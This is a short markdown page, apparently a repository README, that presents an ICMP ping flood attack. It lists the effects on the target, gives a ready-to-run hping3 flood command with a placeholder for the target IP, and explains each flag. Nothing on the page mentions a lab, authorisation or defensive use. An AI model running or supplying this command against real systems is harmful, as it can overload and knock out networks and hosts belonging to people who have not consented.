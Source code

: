 # ICMP (Ping) Flood Attack

## Effects:
- Generates high network traffic, possibly slowing down or freezing the system.
- Can lead to ping timeouts.

## Command:
```bash
sudo hping3 --icmp --flood <Target IP>
```

## Explanation:

- `--icmp` → Sends continuous Ping (ICMP) requests.
- `--flood` → Sends packets rapidly without stopping.
